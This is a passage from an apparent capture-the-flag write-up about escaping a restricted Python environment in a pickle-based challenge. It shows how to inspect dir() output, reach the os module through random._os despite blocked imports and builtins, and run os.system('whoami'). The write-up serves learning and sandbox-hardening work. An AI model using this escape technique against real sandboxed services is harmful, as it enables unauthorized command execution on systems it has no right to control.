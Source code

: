 In our case, we can import only from `__main__` and `app`, so already we can't import any arbitrary module. The `__builtins__` are also restricted. So we have to see if we have something we can work with in the runtime of the target.

### Solution

#### Examining the python environment

As we said, we can import everything form `__main__` and `app`. Since `__main__` is just an identifier of the context of a module and has the value of a string, maybe we can look at `app`, as it can hold more info. Let's just do a `print(dir())` to get the necessary info

```python
...
print(dir())
if __name__ == '__main__':
    main()

['Phreaks', '__annotations__', '__builtins__', '__cached__', '__doc__', '__file__', '__loader__', '__name__', '__package__', '__spec__', 'add_existing_members', 'main', 'members', 'menu', 'pickle', 'random', 'register_member', 'unpickle', 'view_members']
```

We have a lot of internal and code-defined values. As we already said, `__builtins__` is already out of scope. So we need to search for something else. Out of all os these, `random` is the only external module that's imported, so we can start from there. If we perform `dir(random)`, we can see some interesting internal values

```python
>>> import random
>>> dir(random)
['BPF', 'LOG4', 'NV_MAGICCONST', 'RECIP_BPF', 'Random', 'SG_MAGICCONST', 'SystemRandom', 'TWOPI', '_ONE', '_Sequence', '_Set', '__all__', '__builtins__', '__cached__', '__doc__', '__file__', '__loader__', '__name__', '__package__', '__spec__', '_accumulate', '_acos', '_bisect', '_ceil', '_cos', '_e', '_exp', '_floor', '_index', '_inst', '_isfinite', '_log', '_os', '_pi', '_random', '_repeat', '_sha512', '_sin', '_sqrt', '_test', '_test_generator', '_urandom', '_warn', 'betavariate', 'choice', 'choices', 'expovariate', 'gammavariate', 'gauss', 'getrandbits', 'getstate', 'lognormvariate', 'normalvariate', 'paretovariate', 'randbytes', 'randint', 'random', 'randrange', 'sample', 'seed', 'setstate', 'shuffle', 'triangular', 'uniform', 'vonmisesvariate', 'weibullvariate']
```

Out of all of these, `_os` really grabs our attention. If we assign it to a vaiable, we can see it's the actual `os` module

```python
>>> import random
>>> os = random._os
>>> os
<module 'os' (frozen)>
>>> os.system
<built-in function system>
>>> os.system('whoami')
ckrielle
0
```
